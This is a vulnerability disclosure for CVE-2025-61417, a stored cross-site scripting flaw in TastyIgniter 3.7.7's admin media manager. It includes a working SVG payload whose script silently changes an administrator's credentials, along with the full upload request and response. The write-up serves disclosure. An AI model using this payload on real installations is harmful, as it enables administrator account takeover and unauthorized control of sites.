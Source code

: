 # CVE-2025-61417 — Stored XSS (Cross-Site Scripting)

---

**Vulnerability Type:** Cross-Site Scripting (XSS)  
**Published:** https://www.cve.org/CVERecord?id=CVE-2025-61417  
**Vendor of Product:** [Tastyigniter](https://github.com/tastyigniter)   
**Affected Product:** TastyIgniter - 3.7.7  
**Attack Type:** Remote  
**Affected Component:** `admin/media_manager` feature built into the application (upload image).  
**Severity:** 8.8 *(CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)*.  
**Impact:** Exploitation can lead to full administrative account takeover (modify admin username, email, password).

---

## Description

A stored cross-site scripting (XSS) vulnerability exists in TastyIgniter 3.7.7, affecting the `/admin/media_manager` component. Attackers who can upload files may craft a malicious SVG file containing JavaScript. When an administrator previews the SVG in the admin interface, the embedded script executes within the admin's browser context. This allows the attacker to modify the admin account credentials, enabling full account takeover.

---

## Steps to Reproduce

1. Go to `http://127.0.0.1:8000/admin/media_manager` and upload a crafted `.svg` file containing a malicious script.
   
   Example SVG Payload:
   ```xml
   <svg xmlns="http://www.w3.org/2000/svg">
     <script><![CDATA[
       fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=Hacked&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=Hacked&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
         method: "GET",
         credentials: "include",
         headers: {
           "X-Requested-With": "XMLHttpRequest",
           "X-IGNITER-REQUEST-HANDLER": "onSave"
         }
       });
     ]]></script>
   </svg>

2. Once the malicious SVG is uploaded, an admin browses to the Media Manager and previews the file. The embedded JavaScript executes in the admin's browser context.
3. The script sends an authenticated `PATCH` request (with valid headers like `X-Requested-With` and `X-IGNITER-REQUEST-HANDLER`) to `/admin/staffs/account`, modifying the admin's username, email, name, and password.
4. This results in a full account hijack of the administrator without their knowledge.


## HTTP Request (To Upload the Malicious SVG)
```
POST /admin/media_manager HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-CSRF-TOKEN: KS9zbdPKPBt6IZIdC9rGqRwi8dYyy5AovnQ3B0oQ
X-IGNITER-FILEUPLOAD: mediamanager
Content-Type: multipart/form-data; boundary=----geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Length: 723
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/admin/media_manager
Cookie: <Cookie>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="path"
/ 
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="file_data"; filename="CSRF.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg">
  <script><![CDATA[
    fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=HackedStaff&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=HackedStaff&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
      method: "GET",
      credentials: "include",
      headers: {
        "X-Requested-With": "XMLHttpRequest",
        "X-IGNITER-REQUEST-HANDLER": "onSave"
      }
    });
  ]]></script>
</svg>
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a--

```

## HTTP Response (On Successful Upload)
```
HTTP/1.0 200 OK
Host: 127.0.0.1:8000
Date: Wed, 16 Jul 2025 08:10:42 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Cache-Control: no-cache, private
Content-Type: application/json

{
  "link": "\/\/CSRF.svg",
  "result": "success"
}

```


